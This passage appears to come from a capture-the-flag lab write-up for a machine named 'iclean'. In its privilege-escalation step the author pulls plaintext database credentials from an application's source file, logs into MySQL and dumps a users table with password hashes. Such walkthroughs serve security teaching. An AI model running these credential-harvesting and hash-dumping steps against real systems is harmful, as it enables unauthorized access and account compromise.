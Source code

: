 ## PE

In `/opt/app/app.py` I find credentials for the database:

```json
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```

```sql
www-data@iclean:/opt/app$ mysql -u iclean -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 78056
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)
Copyright (c) 2000, 2024, Oracle and/or its affiliates.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| capiclean          |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)
mysql> use capiclean;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.00 sec)
mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)
```
